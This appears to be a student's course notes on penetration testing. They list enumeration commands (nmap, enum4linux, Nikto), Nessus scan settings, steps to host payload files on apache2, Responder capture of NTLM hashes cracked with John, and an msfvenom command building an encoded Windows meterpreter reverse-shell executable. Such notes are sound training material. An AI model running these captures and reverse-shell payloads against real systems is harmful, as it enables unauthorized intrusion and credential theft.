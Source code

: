 
###### FTP Enumeration (21)

[FTP](simplenote://note/51634c3e-9d22-4ca6-8483-a134ceadd00c)

``nmap -p 21 [ip] -sV -vv -T4 --script="ftp*"``

###### Enum4linux 

``enum4linux -a [ip]``

###### Nikto 

``nikto -h [domain/ip] -output [filename] -Format txt/xml/html``

<hr>

## Module 05 : Vulnerability Analysis

>[!check] Nikto & Nessus
>`nikto -h [ip / domain] -Tuning 1`
>Nessus runs on  https://localhost:8834
>Nessus -> Policies > Advanced scan
>Discovery > Host Discovery > Turn off Ping the remote host
>Port Scanning > check the Verify open TCP ports found by local port enumerators
>Advanced
>Max number of TCP sessions per host and = unlimited
>Max number of TCP sessions per scan = unlimited
>Credentials > Windows > Username & Password
>Save policy > Create new scan > User Defined
>Enter name & Target
>Schedule tab > Turn of Enabled
>Hit launch from drop-down of save

<hr>

## Module 06 : System Hacking

>[!important] File Sharing Between Machines using `apache2` server
>- mkdir /var/www/html/share
>- chmod -R 755 /var/www/html/share
>- chown -R www-data:www-data /var/www/html/share
>- cp [payload file] /var/www/html/share
>- service apache2 start

###### Responder
Extracts OS information, NTLM Password Hashes, NTLM Username, NTLM Ip Address, Client version
To start Responder:- 
`responder -I eth0`
 
 - Default location for storing logs - ` /home/responder/logs` pass this log file to JTR to crack the password using the given wordlist.
 - john `/usr/share/responder/logs/[file name of the logs.txt]`

###### Msfvenom Payload 
`msfvenom -p windows/meterpreter/reverse_tcp LHOST=[IP] LPORT=[PORT Number] -f exe  --platform windows -a x86 -e x86/shikata_ga_nai -o [output file ]`
